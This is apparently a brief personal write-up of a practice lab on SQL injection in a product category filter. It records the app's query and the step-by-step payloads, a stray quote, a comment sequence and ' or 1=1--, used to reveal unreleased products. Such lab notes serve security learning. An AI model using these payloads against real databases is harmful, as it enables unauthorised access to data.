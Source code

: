 # SQL injection - product category filter

## SQL in app

`SELECT * FROM products WHERE category = 'Gifts' and released = 1;`

## end goal: display all products released and unreleased

``` sql
SELECT * FROM products WHERE category= 'Pets' AND released = 1
SELECT * FROM products WHERE category= ''' AND released = 1

i got error, then sqli is possible

SELECT * FROM products WHERE category=''-- AND released = 1
work normal but also show unreleased products

SELECT * FROM products WHERE category= ''
SELECT * FROM products WHERE category= '' or 1 = 1--' AND released = 1
got it
```
